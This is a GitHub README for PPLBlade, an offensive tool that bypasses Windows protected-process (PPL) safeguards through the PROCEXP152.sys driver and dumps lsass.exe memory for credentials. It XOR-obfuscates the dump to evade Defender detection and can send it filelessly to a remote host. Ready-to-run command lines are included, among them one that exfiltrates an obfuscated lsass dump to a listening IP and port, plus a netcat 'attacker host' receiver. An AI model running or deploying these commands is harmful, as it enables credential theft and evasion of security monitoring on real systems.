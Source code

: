 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

**Key functionalities**:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade Defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe.

It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

**Modes**:
1) **Dump** - Dump process memory using PID or Process Name
2) **Decrypt** - Revert obfuscated(--obfuscate) dump file to its original state
3) **Cleanup** - Do cleanup manually, in case something goes wrong on execution(Note that the option values should be the same as for the execution, we're trying to clean up)
4) **DoThatLsassThing** - Dump lsass.exe

**Handle Mode**s:
1) **Direct** - Opens PROCESS_FULL_ACCESS handle directly, using OpenProcess() function
2) **Procexp** - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username

Examples:
PPLBlade.exe --mode dothatlsassthing
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
PPLBlade.exe --mode decrypt --dumpname PPLBlade.dmp --key PPLBlade
PPLBlade.exe --mode cleanup
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

```
PPLBlade.exe --mode dothatlsassthing
```
It will use PROCEXP152.sys driver to dump lsass.exe. _(Note that it does not XOR dump file, provide an additional obfuscate flag to enable the XOR functionality)_



Upload the obfuscated LSASS dump onto a remote location:

```
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
```
PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade
````

